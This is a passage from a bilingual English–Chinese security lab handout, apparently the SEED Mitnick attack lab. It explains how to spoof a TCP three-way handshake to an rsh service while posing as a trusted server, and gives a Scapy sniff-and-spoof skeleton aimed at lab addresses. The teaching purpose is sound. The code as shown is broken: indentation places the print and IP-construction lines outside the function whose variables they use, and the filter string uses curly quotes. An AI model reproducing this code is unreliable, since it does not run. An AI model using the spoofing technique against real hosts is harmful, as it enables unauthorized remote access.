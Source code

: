 It should be noted that the source port of the SYN packet must be from port 1023. If a different  port is used, rsh will reset the connection after the connection is established. If this step is successful, from Wireshark, we should be able to see a SYN+ACK packet coming out of X-Terminal (see Packet 2 in Listing 1).

有一点需要注意，SYN包中的源端口需要来自于端口1023.如果使用了一个不同的端口，rsh在连接建立后将重置连接。如果这步成功，从wireshark中我们应该可以看到SYN+ACK包将从X终端发送出来（查看监听表1中的2号包）。

<br>

**Step 2: Respond to the SYN+ACK packet.** After X-Terminal sends out a SYN+ACK, the trusted server needs to send out an ACK packet to complete the three-way handshake protocol. The acknowledge number in the packet should be S+1, where S is the sequence number contained in the SYN+ACK packet. See Packet 3 in Listing 1.

**步骤2: 响应SYN+ACK数据包。**在X终端发送出SYN+ACK后，受信服务器需要发出一个ACK包来完成三次握手过程。在回应包中的S应该要+1，其中S是在SYN+ACK包中的seq号。可以从监听表1中的第三个包看出来。

In the actual Mitnick attack, the attacker could not see the SYN+ACK packet, because it was sent to the trusted server, not to the attacker. That is why Mitnick had to guess the value of the sequence number. In this lab, we allow students to get the sequence number via packet sniffing.

在真实的米特尼克攻击中，攻击者无法获知SYN+ACK包，因为它是发往了受信服务器上，而非发往攻击者。这就是为什么米特尼克需要猜测seq号的值了。在本次实验中，我们允许学生通过数据包监听来获得seq号的值。

Students need to write a sniff-and-spoof program using Scapy and run it on the attacker’s machine. Here is a skeleton（骨架） of a sniff-and-spoof program that might be useful. Please make sure to follow the restrictions（限制） described at the beginning of the section, or you will get a penalty（惩罚，罚款）.

学生需要使用scapy写下一个监听-欺骗程序，并在攻击者的主机上运行该程序。这有一份监听-欺骗程序的大致框架可能会对你有用。请确保你遵循了开头部分的限制描述，否则你将会有惩罚。

```python
#!/usr/bin/python3
from scapy.all import *

x_ip		= "10.0.2.6" 		# X-Terminal
x_port		= 514				# Port number used by X-Terminal

srv_ip		= "10.0.2.7" 		# The trusted server
srv_port	= 1023 				# Port number used by the trusted server

# Add 1 to the sequence number used in the spoofed SYN
seq_num 	= 0x1000 + 1


def spoof(pkt):
	global seq_num 				# We will update this global variable in the function
	
    old_ip	= pkt[IP]
	old_tcp	= pkt[TCP]
    
# Print out debugging information
tcp_len = old_ip.len - old_ip.ihl*4 - old_tcp.dataofs*4 		# TCP data length
print("{}:{} -> {}:{} Flags={} Len={}".format(old_ip.src, old_tcp.sport,old_ip.dst, old_tcp.dport, old_tcp.flags, tcp_len))


# Construct the IP header of the response
ip	= IP(src=srv_ip, dst=x_ip)

# Check whether it is a SYN+ACK packet or not;
# if it is, spoof an ACK packet

# ... Add code here ...
myFilter = ’tcp’ 				# You need to make the filter more specific
sniff(filter=myFilter, prn=spoof)
```
